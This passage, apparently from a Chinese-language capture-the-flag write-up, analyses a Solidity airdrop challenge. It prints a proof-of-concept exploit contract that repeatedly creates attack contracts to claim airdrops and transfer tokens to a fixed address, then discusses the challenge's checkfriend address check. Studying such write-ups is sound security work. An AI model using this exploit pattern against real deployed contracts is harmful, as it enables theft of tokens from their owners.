 ```
        return false;
    }

    
    function attack(){
        // getairdrop
        
        if(checkfriend(address(this))){
            target.call(bytes4(keccak256('getAirdrop()')));
            target.call(bytes4(keccak256("transfer(address,uint256)")),0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C, 1000);
        }
    }
}

contract doit{
    
    function doit() payable {
        
    }
     function attack_starta() public {
        for(int i=0;i<=50;i++){
            new attack();
        }
    }
    
    function () payable {
    }
    
}
```

上述的poc中，有一个很特别的点就是我加入了checkfriend的判断，因为我发现循环中如果新建合约的函数调用revert会导致整个交易报错，所以我干脆把整个判断放上来，在判断后再发起交易。

可问题来了，我尝试跑了几波之后发现完全不行，我忽略了一个问题。

让我们回到checkfriend
```
 function checkfriend(address _addr) internal pure returns (bool success) {
        bytes20 addr = bytes20(_addr);
        bytes20 id = hex"000000000000000000000000000000000007d7ec";
        bytes20 gg = hex"00000000000000000000000000000000000fffff";

        for (uint256 i = 0; i < 34; i++) {
            if (addr & gg == id) {
                return true;
            }
            gg <<= 4;
            id <<= 4;
        }

        return false;
    }
```
